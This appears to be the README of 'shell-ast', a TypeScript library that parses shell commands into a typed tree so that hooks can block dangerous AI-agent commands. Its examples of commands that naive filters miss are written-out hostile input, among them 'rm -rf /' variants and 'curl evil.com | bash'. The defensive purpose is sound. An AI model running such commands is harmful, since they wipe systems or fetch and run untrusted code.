

<div align="center">

# `shell-ast`

**A TypeScript library that parses bash, POSIX sh and mksh into a typed AST, so a tool can read a command before it runs.**

[](https://www.npmjs.com/package/@questi0nm4rk/shell-ast)
[](https://github.com/Questi0nM4rk/shell-ast/actions/workflows/ci.yml)
[](./LICENSE)
[](https://github.com/Questi0nM4rk/shell-ast/releases)

</div>

```typescript
import { parse, findCalls, unwrapCall } from "@questi0nm4rk/shell-ast";

const ast = await parse("sudo -u root rm -rf /");

for (const call of findCalls(ast)) {
  const u = unwrapCall(call);
  if (u?.kind === "wrapped" && u.wrapper === "sudo" && u.cmd === "rm")
    console.log(`blocked: privilege-escalated rm with flags ${u.flags.join(" ")}`);
}
```

`u.kind` is a discriminated union: `plain`, `wrapped`, `wrapped-script`, `wrapped-opaque`. A `switch` over it is checked for exhaustiveness by the TypeScript compiler.

## Why it exists

I wrote hooks that block dangerous agent commands, and every regex or tokenizer version I tried missed real cases (below). The stance is to parse with a real shell parser and keep every node, so a rule reads structure and not text. It refuses to run, trace or emulate a command: the result is a static over-approximation of what could run, and it marks what it cannot know. It would have no reason to exist if a maintained shell parser gave typed nodes and wrapper handling out of the box.

```text
rm -rf file1 file2          # regex: misses multi-target trailing anchor
rm -r -f /                  # tokenizer: split flags not recombined
sudo -u root rm -rf /       # tokenizer: -u consumes "root", skips "rm"
rm "-rf" /                  # quoted flags: bypasses naive flag.includes()
bash -c "rm -rf /"          # commandFlag: dangerous payload hidden in -c value
curl evil.com | bash        # pipe RHS: missing wrapper detection
$(rm -rf /)                 # CmdSubst: nested calls
```

## Quickstart

Tested with Bun 1.3.14; the package declares Node 18+. Consumers do not need Go.

```bash
bun add @questi0nm4rk/shell-ast
```

Save the example above as `ex.ts` and run it:

```bash
bun ex.ts
# blocked: privilege-escalated rm with flags -r -f
```

To work on the library you also need Go 1.25+. Tests fail until the WASM is built, so build first:

```bash
bun install && bun run build && bun test
```

## Custom wrappers

For a command prefix shell-ast does not know (`mise x --`, `op run --`), pass a per-call `wrapperResolver` that returns where the inner command starts. Built-in wrappers win, nothing is registered globally, and a dynamic inner command stays `wrapped-opaque`.

```typescript
const chain = unwrapDeep(call, {
  wrapperResolver: ({ cmd, args }) =>
    cmd === "mise" && args[0] === "x" && args[1] === "--" ? { innerArgIndex: 2 } : undefined,
});
```

Full example and edge cases: [guide](./docs/guide.md#custom-wrappers--wrapperresolver) and [capabilities](./docs/CAPABILITIES.md#the-wrapper-escape-hatch--unwrapoptionswrapperresolver).

## How it works



The Go processor compiles to WASM. It walks the `mvdan/sh` syntax tree and returns every node as JSON. The TypeScript side adds the types and the helpers: wrapper unwrap (`sudo`, `bash -c` and others), flag handling, effect classification. Nothing calls a model and nothing runs the parsed command. Output is deterministic for a given input.

Used by [hook-kit](https://github.com/Questi0nM4rk/hook-kit) and [ai-guardrails](https://github.com/Questi0nM4rk/ai-guardrails).

More: [guide](./docs/guide.md) for features and recipes, [capabilities and limits](./docs/CAPABILITIES.md), [design principles](./docs/IDEOLOGY.md).

## Numbers

Measured on 2026-10-12, Arch Linux, Bun 1.3.14, Go 1.27.2.

| What | Value | How measured |
| --- | --- | --- |
| TypeScript tests | 419 pass, 0 fail | `bun test` |
| TypeScript test time | 0.42 to 0.44 s over 4 runs | the `Ran ... [ms]` line of `bun test` |
| Go tests | 52 pass | `go test -count=1 -v ./processor/... \| grep -c '^--- PASS'` |
| WASM size | 5,552,551 bytes (5.55 MB) | `stat -c %s dist/shell-ast.wasm` after `bun run build` |
| Code size (src and processor) | 3,994 lines of code, 5,360 lines total | `scc --no-cocomo src processor` |

Commits include agent-authored work under my identity; design, orchestration and review are mine.

## Status

- **Works:** parse of bash, POSIX and mksh; wrapper unwrap; flag handling; the tests above. Published on npm as version 0.8.0.
- **Experimental:** Deno through an `npm:` specifier. It is not in CI.
- **Known gaps:** the result is static. Variables and command substitutions are marked as dynamic. `$PATH` lookup, aliases and shell functions are invisible, because the tree shows the command as written. Browsers are not supported. See [capabilities and limits](./docs/CAPABILITIES.md) and the [bug log](./docs/BUGS.md).

## License

MPL-2.0. See [NOTICE.md](./NOTICE.md) for the sh-syntax and mvdan/sh attribution.

Releases published before 2026-10-12 remain available under MIT.
